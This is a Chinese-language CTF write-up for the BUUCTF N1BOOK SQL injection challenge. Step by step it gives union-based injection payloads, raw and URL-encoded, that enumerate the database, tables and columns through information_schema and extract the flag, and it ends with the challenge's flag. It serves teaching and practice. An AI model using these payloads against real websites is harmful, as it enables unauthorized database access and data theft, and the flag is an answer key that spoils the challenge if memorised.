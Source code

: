 ```yaml
---
title: 联合查询
createTime: 2025/02/06 20:37:26
permalink: /ctf/mbbqewrf/
---
```

> 例题：BUUCTF N1BOOK \[第一章 web入门\]SQL注入-1

## 查数据库名

```url
http://example.com/index.php?id=4' union select 1,database(),3#
```

```url
http://example.com/index.php?id=4%27%20union%20select%201%2cdatabase()%2c3%23
```

```sql
select * from notes where id ='4' union select 1,database(),3
```

结果：

![1737908456337](image/1.字符型注入/1737908456337.png)

## 查表名

```url
http://example.com/index.php?id=4' union select 1,2,group_concat(table_name) from information_schema.tables where table_schema=database()#
```

```url
http://example.com/index.php?id=4%27%20union%20select%201,2,group_concat(table_name)%20from%20information_schema.tables%20where%20table_schema=database()%23
```

```sql
union select 1,2,group_concat(table_name) from information_schema.tables where table_schema=database()
```

结果：

![1737908437720](image/1.字符型注入/1737908437720.png)

## 查字段名

```url
http://example.com/index.php?id=4' union select 1,2,group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='fl4g'#
```

```url
http://example.com/index.php?id=4%27%20union%20select%201,2,group_concat(column_name)%20from%20information_schema.columns%20where%20table_schema=database()%20and%20table_name=%27fl4g%27%23
```

```sql
select * from notes where id ='4' union select 1,2,group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='fl4g'
```

> 这里的 `fl4g` 是上一步查到的表名

结果：

![1737909276928](image/1.字符型注入/1737909276928.png)

## 查字段内容

```url
http://example.com/index.php?id=4' union select 1,database(), group_concat(fllllag) from fl4g#
```

```url
http://example.com/index.php?id=4%27%20union%20select%201%2cdatabase()%2c%20group_concat(fllllag)%20from%20fl4g%23
```

```sql
select * from notes where id ='4' union select 1,database(), group_concat(fllllag) from fl4g
```

> 这里的 `fl4g` 和 `fllllag` 是上两步查到的表名和字段名

结果：

![1737909647671](image/1.字符型注入/1737909647671.png)

## ***Cracked.***

```flag
n1book{union_select_is_so_cool}
```
